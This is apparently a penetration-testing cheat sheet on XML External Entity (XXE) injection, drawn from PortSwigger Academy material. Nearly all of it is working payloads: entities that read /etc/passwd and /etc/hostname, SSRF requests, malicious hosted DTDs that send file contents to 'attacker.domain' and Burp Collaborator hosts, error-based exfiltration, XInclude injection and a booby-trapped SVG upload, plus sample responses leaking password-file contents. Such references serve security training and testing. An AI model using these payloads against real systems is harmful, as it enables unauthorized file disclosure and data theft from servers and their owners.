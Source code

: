 # XML External Entity (XXE) Injection

## Retrieve Files

Add DOCTYPE line to XML and call entity via a value used in the app.

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xyz [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<foo>&xxe;</foo>
```

## Invoke SSRF

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xyz [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
<foo>&xxe;</foo>
```

## Blind XXE

If response is not returned to client, we can use Burp collaborator for out-of-band testing ([read about OAST](https://portswigger.net/burp/application-security-testing/oast)).

#### Blind XEE using OAST

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xyz [ <!ENTITY xxe SYSTEM "http://SUBDOMAIN.burpcollaborator.net/"> ]>
<foo>&xxe;</foo>
```

#### Blind XXE using OAST via XML parameter entities

Add DOCTYPE line to XML with Burp collaborator URL and call XML parameter entity via a value used in the app (mind the ‘%’ in both lines).

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xyz [ <!ENTITY % xxe SYSTEM "http://SUBDOMAIN.burpcollaborator.net/"> %xxe; ]>
<foo>%xxe;</foo>
```

#### Blind XXE to exfiltrate data via OAST

In order to exfiltrate data using XEE via OAST, you need to host DTD. Note that files with newlines (e.g. ‘/etc/passwd’) cannot be exfiltrated this way.

First host malicious DTD (e.g. ‘http://attacker.domain/dtd’):

```bash
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://SUBDOMAIN.burpcollaborator.net/?x=%file;'>">
%eval;
%exfiltrate;
```

Then inject XXE in HTTP request:

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xyz [<!ENTITY % xxe SYSTEM "http://attacker.domain/dtd"> %xxe;]>
```

#### Blind XXE to exfiltrate data via error messages

Works if the app returns the resulting error message within its response. It’s possible to exfiltrate files with newlines this way.

First host malicious DTD (e.g. ‘http://attacker.domain/dtd’):

```bash
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

Then inject XXE in HTTP request:

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xyz [<!ENTITY % xxe SYSTEM "http://malicious.domain/dtd"> %xxe;]>
```

Example HTTP response:

```bash
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 1339

"XML parser exited with non-zero code 1: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
[...]
```

#### Blind XXE by repurposing a local DTD

See [PortSwigger Academy](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-by-repurposing-a-local-dtd)

## Exploiting XInclude to Retrieve Files

Often you don’t see the XML from a client’s perspective. Instead, the app backend embeds user input into an XML document. Classic XXE will not work, but we can use XInclude for this.

```bash
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

Example in HTTP request (injecting via ‘productId’ example parameter):

```bash
POST /product/stock HTTP/1.1
Host: example.net
Content-Type: application/x-www-form-urlencoded
Connection: close

productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

Example HTTP response:

```bash
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 1278

"Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
[...]
```

## XXE via File Upload

Upload SVG file containing XXE code:

```bash
<?xml version="1.0" standalone="yes"?><!DOCTYPE xyz [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

## XXE via Modified Content Type

Some apps tolerant changing the content type to XML.

Normal HTTP request:

```bash
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

Request content changed to XML, opening possible XXE attack surface:

```bash
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```

## References

- [Portswigger.net Academy](https://portswigger.net/web-security/xxe)
